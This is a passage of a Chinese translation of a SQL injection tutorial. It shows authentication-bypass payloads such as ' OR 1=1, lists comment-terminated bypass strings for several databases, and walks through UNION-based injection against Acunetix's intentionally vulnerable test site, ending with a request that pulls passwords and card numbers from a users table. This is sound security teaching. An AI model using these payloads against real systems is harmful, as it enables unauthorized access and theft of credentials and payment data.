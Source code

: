 这些输入字段是容易遭受 SQL 注入攻击的。攻击者能够在输入字段中利用 SQL 指令，修改数据库服务执行的 SQL 语句。比如，他们可使用含有单引号的把戏，将 `password` 字段设置为：

```sql
password' OR 1=1
```

因此，数据库服务将执行以下 SQL 查询：

```sql
SELECT id FROM users WHERE username='username' AND password='password' OR 1=1'
```

由于 `OR 1=1` 语句，无论 `username` 和 `password` 是什么，`WHERE` 分句都将返回 `users` 表中第一个 `id`。数据库中第一个用户的 `id` 通常是数据库管理员。通过这种方式，攻击者不仅绕过了身份认证，而且还获得了管理员权限。他们也可以通过注释掉 SQL 语句的后续部分，进一步控制 SQL 查询语句的执行：

```
-- MySQL, MSSQL, Oracle, PostgreSQL, SQLite
' OR '1'='1' --
' OR '1'='1' /*
-- MySQL
' OR '1'='1' #
-- Access (using null characters)
' OR '1'='1' %00
' OR '1'='1' %16
```

## 基于合并查询的 SQL 注入例子

使用 UNION 操作符是最常见的 SQL 注入类型之一。它允许攻击者将两个或更多个 SELECT 语句的查询结果合并为一个结果。这种技术被称为基于合并查询的 SQL 注入。

以下是这种注入攻击的一个例子。该例子在 **testphp.vulnweb.com** 网页上进行，该网页是 Acunetix 维护的故意存在漏洞的网站。（译者注：可以跟着该例子在 [testphp.vulnweb.com](http://testphp.vulnweb.com/artists.php?artist=1) 站点体验 SQL 注入攻击的过程。）

以下 HTTP 请求是一位用户发送的合法正常请求：

```
GET http://testphp.vulnweb.com/artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com
```

![HTTP request a legitimate user would send](https://www.acunetix.com/wp-content/uploads/2012/10/image02.png)

`artist` 参数容易受到 SQL 注入攻击。以下的载体修改了该参数，希望找到某个不存在的记录。它设置该参数的值为 `-1`。当然，它可以是数据库中不存在的任意值。然而，负数往往是个好主意，因为数据库中的 id 很少会是负数。

在 SQL 注入攻击中，`UNION` 操作符通常被用于在原始查询语句中，附加恶意的 SQL 查询语句，网站服务将执行所有查询语句。注入的查询语句的结果将和原始查询语句的结果合并。这样攻击者便可以得到其他数据表中的数据。（译者注：这步是为了演示当 UNION 之后的语句为 `SELECT 1, 2, 3` 时，页面将输出 2 和 3。）

```
GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, 2, 3 HTTP/1.1
Host: testphp.vulnweb.com
```

![SQL injection using the UNION operator](https://www.acunetix.com/wp-content/uploads/2012/10/image00.png)

接下来的例子展示了在这个存在漏洞的网站中，如何修改 SQL 注入的载体并得到有意义的数据：

```
GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1,pass,cc FROM users WHERE uname='test' HTTP/1.1
Host: testphp.vulnweb.com
```
